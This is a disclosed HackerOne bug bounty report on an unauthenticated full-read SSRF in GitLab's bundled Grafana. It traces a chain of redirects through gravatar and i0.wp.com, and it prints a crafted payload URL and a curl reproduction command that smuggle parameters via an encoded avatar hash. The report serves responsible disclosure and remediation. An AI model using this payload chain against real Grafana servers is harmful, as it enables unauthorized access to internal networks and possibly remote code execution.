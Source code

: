 # Full Read SSRF on Gitlab's Internal Grafana

## Report Details
- **Report ID**: 878779
- **URL**: https://hackerone.com/reports/878779
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-05-20T13:47:25.959Z
- **Disclosed**: 2020-08-07T13:48:20.744Z

## Reporter
- **Username**: rhynorater
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Apparently, Grafana is bundled with Gitlab by default. So the grafana instance that is accessible via `/-/grafana/`is vulnerable to the SSRF outlined below.

## Summary
By chaining together some redirects and a URL decoding bug, it is possible to achieve a full-read, unauthenticated, SSRF from your Grafana instance. It is possible to recreate this bug on `dev.gitlab.org/-/grafana`. 

## Details
In the grafana source code, the following route is defined:
```
	r.Get("/avatar/:hash", avatarCacheServer.Handler)
```
This route takes the hash from under `/avatar/:hash` and routes it to `secure.grafana.com` in order to access a user's gravatar image. The code that does this looks like this:
```
const (
	gravatarSource = "https://secure.gravatar.com/avatar/"
)
...
case err = <-thunder.GoFetch(gravatarSource+this.hash+"?"+this.reqParams, this):
```
The `this.hash` referenced in this code is the hash passed in via `/avatar/:hash` **URL Decoded**. The fact that this `:hash` is URL Decoded allows us to smuggle in our own parameters into this request. On `secure.gravatar.com`, if you supply the `d` parameter, it allows for redirection to `i0.wp.com` where some of the images are hosted. This is the first redirect in the redirect chain.

In order to get from `i0.wp.com` to any arbitrary host, quite a lot of investigation into this domain had to be performed. In the end, the open redirect achieved due to some improper redirect validation. The format of urls on `i0.wp.com` are as follows `i0.wp.com/{domainOfImage}/{pathOfImage}`. It seems that `i0.wp.com` wanted to offload some of its image hosting to `.bp.blogspot.com` whenever possible, so for any host whose domain was `*.bp.blogspot.com`, `i0.wp.com` would redirect to that host in order to avoid serving the image. However, after many long hours of investigation, it was discovered that it is possible to turn this into an open redirect using the following form:
```
http://i0.wp.com/google.com/1.bp.blogspot.com/
```
By using this trick it is possible to create a redirection chain that goes like this:
```
https://secure.gravatar.com/avatar/anything?d=/google.com/1.bp.blogspot.com/
->
http://i0.wp.com/google.com/1.bp.blogspot.com/
->
https://google.com/1.bp.blogspot.com
```

Finally, using this it is possible to create the SSRF using the following payload:
```
https://dev.gitlab.org/-/grafana/avatar/tesata%3fd%3dredirect.rhynorater.com%252f1.bp.blogspot.com%252fYOURHOSTHERE%26cachebust
```
(`redirect.rhynorater.com` is configured to redirect to any host provided after the `1.bp.blogspot.com` directory)

## Steps to Reproduce
Run the following `curl` command:
```
curl "https://dev.gitlab.org/-/grafana/avatar/test%3fd%3dredirect.rhynorater.com%252f1.bp.blogspot.com%252fpoc.rhynorater.com%26cachebust"
```

## Remediation
In order to remediate this bug one must either take the Grafana instance inside the internal network or WAF off the `/avatar/` endpoint.

## Impact

Full read, unauthenticated SSRF. This can result in RCE in many environments due to cloud misconfigurations

## Attachments
No attachments
